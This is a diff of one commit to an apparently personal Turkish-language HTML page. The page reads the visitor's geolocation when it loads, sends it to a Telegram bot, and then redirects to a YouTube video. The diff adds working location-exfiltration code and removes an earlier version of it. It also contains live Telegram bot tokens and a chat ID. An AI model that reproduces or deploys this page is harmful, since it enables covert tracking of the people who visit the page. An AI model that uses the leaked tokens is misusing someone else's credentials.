

Before and after one commit to Ghaster1/Ghaster1, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,37 +1,36 @@
 <!DOCTYPE html>
-<html>
+<html lang="tr">
 <head>
-    <title>Konum Gönderiliyor...</title>
-    <meta charset="utf-8" />
+  <meta charset="UTF-8">
+  <title>Konum Gönderici</title>
+</head>
+<body>
+  <h2>📡 Konumun gönderiliyor...</h2>
+
   <script>
-      function sendLocationAndRedirect() {
-        if (navigator.geolocation) {
-          navigator.geolocation.getCurrentPosition(function(position) {
-            const lat = position.coords.latitude;
-            const lon = position.coords.longitude;
+    function sendLocationToTelegram(lat, lon) {
+      const chatID = "8499614707";
+      const token = "6367051419:AAELMBgsbZtIrnnAm4im1PY0W7e2Bso2E4U";
+      const message = `📍 Yeni konum bilgisi alındı:\n🧭 Enlem: ${lat}\n🧭 Boylam: ${lon}\n\n📌 Haritada görmek için:\nhttps://www.google.com/maps?q=${lat},${lon}`;
 
-            fetch("https://api.telegram.org/bot8103906170:AAFLQZ3RE499VbqoOoGUMDnWiUPxXFwvHsg/sendMessage", {
+      const url = `https://api.telegram.org/bot${token}/sendMessage`;
+      const body = `chat_id=${chatID}&text=${encodeURIComponent(message)}`;
+
+      fetch(url, {
         method: "POST",
-              headers: {
-                "Content-Type": "application/x-www-form-urlencoded"
-              },
-              body: `chat_id=8499614707&text=📍Konum alındı: ${lat}, ${lon}`
+        headers: { "Content-Type": "application/x-www-form-urlencoded" },
+        body: body
+      }).then(() => {
+        // Konum gönderildikten sonra YouTube'a yönlendir
+        window.location.href = "https://www.youtube.com/watch?v=dQw4w9WgXcQ"; // Senin daha önce verdiğin bağlantı
       });
+    }
 
-            // YouTube videosuna yönlendirme
-            window.location.replace("https://www.youtube.com/watch?v=NqdOVT1IKPA");
-          }, function(error) {
-            alert("Konum alınamadı: " + error.message);
-            window.location.replace("https://www.youtube.com/watch?v=NqdOVT1IKPA");
+    navigator.geolocation.getCurrentPosition(pos => {
+      const lat = pos.coords.latitude.toFixed(6);
+      const lon = pos.coords.longitude.toFixed(6);
+      sendLocationToTelegram(lat, lon);
     });
-        } else {
-          alert("Tarayıcı konum özelliği desteklemiyor.");
-          window.location.replace("https://www.youtube.com/watch?v=NqdOVT1IKPA");
-        }
-      }
   </script>
-  </head>
-  <body onload="sendLocationAndRedirect()">
-    <p>İşleniyor, lütfen bekleyin...</p>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
